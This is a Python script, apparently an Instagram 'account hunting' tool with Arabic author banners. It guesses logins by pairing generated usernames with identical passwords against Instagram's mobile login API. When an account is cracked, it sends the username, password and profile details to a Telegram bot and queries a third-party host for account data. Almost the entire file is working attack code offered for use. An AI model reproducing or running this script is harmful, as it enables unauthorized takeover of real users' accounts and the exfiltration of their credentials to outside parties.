 import os
os.system('clear')
try:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
except ImportError:
    os.system('pip install time')
    os.system('pip install webbrowser ')
    os.system('pip install random')
    os.system('pip install requests')
    os.system('pip install user_agent')
    os.system('pip install json')
    os.system('pip install secrets')
    os.system('pip install sys')
    os.system('clear')
    from time import sleep
    import time, webbrowser, random, requests
    from uuid import uuid4
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
else:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
    os.system('clear')
    aa = 0
    zz = 0
    E = '\x1b[1;31m'
    G = '\x1b[1;32m'
    S = '\x1b[1;33m'
    Z = '\x1b[1;31m'
    X = '\x1b[1;33m'
    Z1 = '\x1b[2;31m'
    F = '\x1b[2;32m'
    A = '\x1b[2;39m'
    C = '\x1b[2;35m'
    B = '\x1b[2;36m'
    Y = '\x1b[1;34m'
    import time
    timee = time.asctime()
    t = time.localtime()
    current_time = time.strftime('%H:%M:%S', t)

    def a(z):
        for e in z:
            sys.stdout.write(e)
            sys.stdout.flush()
            sleep(0.026)


    a(f"                      {Y}***مطور الاداة قيس التكريتي******* ******بسم الله الرحمن الرحيم ******** ")





    a(f"         {Y}------صيد حسابات انستقرام مقدمه من اخوكم قيس التكريتي ---------"  )
    sleep(1)
    print('\n\n')
    a(G + ' \n\nالتوكن ')
    print('\n')
    tok = input(S + '     >> ' + C)
    sleep(2)
    os.system('clear')
    a(A + ' الآيدي ')
    print('\n')
    ID = input(A + '     >> ' + C)
    sleep(0.1)
    os.system('clear')
    start_msg = requests.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=LODING..... ⏸️").json()
    id_msg = start_msg['result']['message_id']

    def code_joo(userQ, password):
        cookie = secrets.token_hex(8) * 2
        head = {'HOST':'www.instagram.com', 
         'KeepAlive':'True', 
         'user-agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36', 
         'Cookie':cookie, 
         'Accept':'*/*', 
         'ContentType':'application/x-www-form-urlencoded', 
         'X-Requested-With':'XMLHttpRequest', 
         'X-IG-App-ID':'936619743392459', 
         'X-Instagram-AJAX':'missing', 
         'X-CSRFToken':'missing', 
         'Accept-Language':'en-US,en;q=0.9'}
        url_id = f"https://www.instagram.com/{userQ}/?__a=1"
        req_id = requests.get(url_id, headers=head).json()
        name = str(req_id['graphql']['user']['full_name'])
        id = str(req_id['graphql']['user']['id'])
        followes = str(req_id['graphql']['user']['edge_followed_by']['count'])
        following = str(req_id['graphql']['user']['edge_follow']['count'])
        re = requests.get(f"https://o7aa.pythonanywhere.com/?id={id}")
        ree = re.json()
        dat = ree['data']
        t = time.localtime()
        current_time = time.strftime('%H:%M:%S', t)
        joo3 = f"\n⭐✅تعال ضلعي جبتلك حساب  ✅⭐\n\n✔️⭐   ⭐✔️\n ︎.<•>︎ ––––––––––––––––︎ <•>. \n .♻. Name ➡  : {name}\n .🔱. Use®Name☣ : {userQ}\n .🔆. BaSsWord↪  : {password}\n .♾. 𝕱ollowes✴ : {followes}\n .💠. 𝕱𝖔𝖑𝖑𝖔𝖜𝖎𝖓𝖌 : {following}\n .➡. 𝕮𝖗𝖊𝖆𝖙𝖊𝖉 𝕺𝖆𝖙𝖊 : {dat}\n .⚠. TIⓂE : {current_time}\n .⛔. 𝙩𝙝𝙞𝙨 𝙄𝙨 𝙏𝙝𝙚 𝙃𝙪𝙣𝙩 𝙉𝙪𝙢𝙗𝙚𝙧 [{zz}] ✅🤤\n ︎.<•>︎ ––––––––––––––––︎ <•>.\n.🔰. 𝐂𝐡 :@Tariq_black ♦\n"
        tlg = f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=\n {joo3} \n"
        i = requests.post(tlg)
        print(G + joo3)


    url = 'https://b.i.instagram.com/api/v1/accounts/login/'
    headers = {'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)'}
    
    
    a(F + 'iraq : g or e or r or n or m or s or d or f or f or d                                                     ')
  
    phonenumber = input(X +
    
                                                                                                                  ' قم بادخال اليوزر الذي تريد الصيد عليه :  >> ' + C)
    print(G + 'The Tool Has Been Started Successfully ✔️ ')
    sleep(0.1)
    user = 'ajd'
    while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = phonenumber + us
        password = phonenumber + us
        from uuid import uuid4
        uid = str(uuid4())
        data = {'uuid':uid, 
         'password':password, 
         'username':username, 
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req = requests.post(url, headers=headers, data=data)
        if 'logged_in_user' in req.json():
            zz += 1
            userQ = req.json()['logged_in_user']['username']
            code_joo(userQ, password)
        elif '"message":"challenge_required","challenge"' in req.json():
            print(S + 'username S ==> : ' + username + ': password ==> : ' + password)
        else:
            requests.post(f"https://api.telegram.org/bot{tok}/editmessagetext?chat_id={ID}&message_id={id_msg}&text= T.A.R.K IS ALDYLIMY \n\nTh THIS TOOL BY T.A.R.K ⭐\n->•My Channel 👇✔️\n√| @Tariq_black |√\n->• My Id 👇✔️\n√|M.S.A|√\n\n->• Hunted✔️ [{zz}]\n->•🇳\u200aNot hunted❌ [{aa}]")
            print(E + 'username ==> : ' + username + ': password ==> : ' + password)
            aa += 1
